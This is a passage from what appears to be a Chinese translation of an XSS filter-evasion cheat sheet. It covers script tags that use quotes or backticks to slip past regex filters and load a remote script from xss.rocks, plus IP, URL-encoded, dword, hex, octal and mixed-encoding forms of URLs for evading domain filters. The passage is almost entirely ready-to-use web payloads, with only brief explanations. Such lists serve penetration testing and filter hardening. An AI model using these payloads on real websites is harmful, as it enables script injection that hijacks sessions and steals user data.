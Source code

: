 2.83.    利用HTML引号包含的XSS
这在IE中测试通过，但还得视情况而定。它是为了绕过那些允许"<SCRIPT>"但是不允许"<SCRIPT SRC..."形式的正则过滤即"/<script[^>]+src/i"：

<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

这是为了绕过那些允许"<SCRIPT>"但是不允许"<SCRIPTSRC..."形式的正则过滤即" /<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"（这很重要，因为在实际环境中出现过这种正则过滤）：

<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

另一个绕过此正则过滤" /<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"的XSS：

<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>

又一个绕过正则过滤" /<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"的XSS。尽管不想提及防御方法，但如果你想允许<SCRIPT>标签但不加载远程脚本，针对这种XSS只能使用状态机去防御（当然如果允许<SCRIPT>标签的话，还有其他方法绕过）：

<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>

最后一个绕过此正则过滤" /<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"的XSS，使用了重音符（在FireFox下无效）：

<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>

这是一个XSS样例，用来绕过那些不会检查引号配对，而是发现任何引号就立即结束参数字符串的正则表达式：

<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>

这个XSS很让人担心，因为如果不过滤所有活动内容几乎不可能防止此攻击：

<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>

2.84.    URL字符绕过
假定"http://www.google.com/"是不被允许的：

2.84.1. IP代替域名
<A HREF="http://66.102.7.147/">XSS</A>

2.84.2. URL编码
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>

2.84.3. 双字节编码
(注意：还有另一种双字节编码):

<A HREF="http://1113982867/">XSS</A>

2.84.4. 十六进制编码
每个数字的允许的范围大概是240位字符，就如你在第二位上看到的，并且由于十六进制是在0到F之间，所以开头的0可以省略:

<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>

2.84.5. 八进制编码
又一次允许填充，尽管你必须保证每类在4位字符以上-例如A类，B类等等:

<A HREF="http://0102.0146.0007.00000223/">XSS</A>

2.84.6. 混合编码
让我们混合基本编码并在其中插入一些TAB和换行，虽然不知道浏览器为什么允许这样做。TAB和换行只有被引号包含时才有效:

<A HREF="h

tt	p://6	6.000146.0x7.147/">XSS</A>
